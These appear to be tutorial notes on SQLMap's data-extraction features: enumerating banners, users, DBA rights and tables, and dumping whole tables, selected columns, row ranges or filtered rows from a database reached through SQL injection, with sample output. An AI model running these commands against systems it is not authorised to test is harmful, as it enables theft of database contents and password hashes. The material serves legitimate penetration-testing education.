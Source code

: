## SQLMap Data Exfiltration
* SQLMap has a predefined set of queries for all supported DBMSes
	* e.g. [queries.xml](https://github.com/sqlmapproject/sqlmap/blob/master/data/xml/queries.xml) for a MySQL DBMS

## Basic DB Data Enumeration
* After successful detection of an SQLi vulnerability
* We can start enumerating other interesting things like the hostname(`--hostname`), current user's name (`--current-user`), current database name (`--current-db`), or password hashes (`--passwords`)
* Enumeration normally starts with basic information
	-   Database version banner (switch `--banner`)
	-   Current username (switch `--current-user`)
	-   Current database name (switch `--current-db`)
	-   Checking if the current user has DBA (administrator) rights

```sh
$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

**Note**: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

## Table Enumeration
* Use the `--tables` option and specifying the DB name with `-D testdb`

```sh
$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

* Use the `--dump` option and specifying the table name with `-T users` to see its content

```sh
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```

**Tip**: Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

## Table/Row Enumeration
* When dealing with `large tables with many columns / rows` we can specify the columns (e.g., only `name` and `surname` columns) with the `-C` option to narrow down the rows based on their ordinal number(s) inside the table
* Also a  `--start` and `--stop` options can be specified (e.g., start from 2nd up to 3rd entry)

```sh
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

```sh
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

## Conditional Enumeration
* If we have a `requirement` to retrieve certain rows based on a known `WHERE` condition (e.g. `name LIKE 'f%'`) we can use the option `--where`

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"

...SNIP...
Database: testdb

Table: users
[1 entry]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
+----+--------+---------+
```

## Full DB Enumeration
* We can use `dump` without specifying a table with `-T`, then all the current database content will be retrieved or `--dump-all` switch, then all the content from all the databases will be retrieved
* In such cases, a user is also advised to include the switch `--exclude-sysdbs` (e.g. `--dump-all --exclude-sysdbs`), which will instruct SQLMap to skip the retrieval of content from system databases, as it is usually of little interest